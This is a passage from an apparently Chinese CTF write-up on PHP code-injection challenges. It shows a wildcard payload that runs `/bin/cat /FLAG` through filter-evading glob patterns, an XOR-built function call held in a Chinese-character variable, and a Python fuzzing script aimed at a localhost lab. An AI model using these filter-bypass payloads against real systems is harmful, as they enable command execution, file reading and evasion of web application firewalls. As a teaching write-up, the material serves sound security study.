 后来在安全客看到一种新的思路，也很不错，具体参考：[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284) 。这篇文章主要是 **利用通配符调用Linux系统命令** 来查看 **flag** ，关于通配符调用命令的文章，大家可以参考： [web应用防火墙逃逸技术（一）](https://www.anquanke.com/post/id/145518) 。

我们来分析安全客这篇文章中的payload：

```php
$_=`/???/??? /????`;?><?=$_?>
实际上等价于：
$_=`/bin/cat /FLAG`;?><?=$_?>
```

这里我想说一下 **<?=$_?>** 这个代码的意思。实际上这串代码等价于 **<? echo $_?>** 。实际上，当 **php.ini** 中的 **short_open_tag** 开启的时候， **<? ?>** 短标签就相当于 **<?php ?>** ， **<?=$_?>** 也等价于 **<? echo $_?>** ，这也就解决了输出结果的问题。下面我们再来看第二道题目。

**第2道题目如下** ：

![27](27.png)

这道题目实际上和上面那道题目差不多，只是过滤了一个下划线 **_** 而已，我们可以用中文来做变量名：

```php
$哼="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$哼();
```

![28](28.png)

当然，我们也可以 **fuzz** 可用的 **ASCII** 做变量名，**fuzz** 代码如下：

```python 
import requests
for i in range(0,256):
    asc = "%%%02x" % i
    url = 'http://localhost/demo/index2.php?code=$%s="{{{{{{{"^"%%1c%%1e%%0f%%3d%%17%%1a%%1c";$%s();' % (asc,asc)
    r = requests.get(url)
    if 'HRCTF' in r.text:
        print("%s 可用" %asc)
```
